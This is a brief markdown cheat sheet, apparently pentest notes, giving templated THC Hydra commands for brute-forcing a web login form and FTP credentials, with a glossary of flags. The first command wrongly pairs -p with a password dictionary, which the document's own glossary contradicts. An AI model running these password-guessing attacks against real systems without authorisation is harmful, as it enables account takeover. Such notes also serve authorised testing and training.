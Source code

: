 ```hydra -L <USERNAME DICTIONARY> -p <PASSWORD DICTIONARY> <IP> http-post-form "<PATH TO PAGE>:log=^USER^&pwd=^PWD^:<ERROR>" -t 30```

**-L**  specifies a dictionary of usernames
**-l**  specifies a single username
**-P**  specifies a dictionary of passwords
**-p**  specifies a signle password
<br>
**-t**  number if threads to use
<br>
``log=^USER^&pwd=^PWD^``  this will specify the variables as they appear in an HTTP request
``<ERROR>`` some text on the page that indicades a failed login


## Cracking FTP creds:
```
hydra -L usernames -P passwords ftp://<IP>
```


